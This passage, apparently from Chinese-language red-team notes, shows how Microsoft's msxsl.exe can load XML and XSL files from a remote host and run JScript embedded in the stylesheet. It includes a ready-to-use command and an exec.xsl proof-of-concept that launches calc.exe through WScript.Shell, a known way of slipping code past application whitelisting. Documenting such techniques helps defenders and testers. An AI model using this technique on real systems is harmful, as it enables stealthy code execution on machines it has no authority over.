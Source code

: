 下载地址为：[https://www.microsoft.com/en-us/download/details.aspx?id=21714](https://www.microsoft.com/en-us/download/details.aspx?id=21714)

msxsl.exe 需要接受两个文件，XML及XSL文件，可以远程加载，具体方式如下：

```text
msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
```

demo.xml

```text
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl

```text
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

![](../.gitbook/assets/20200413-14.png)
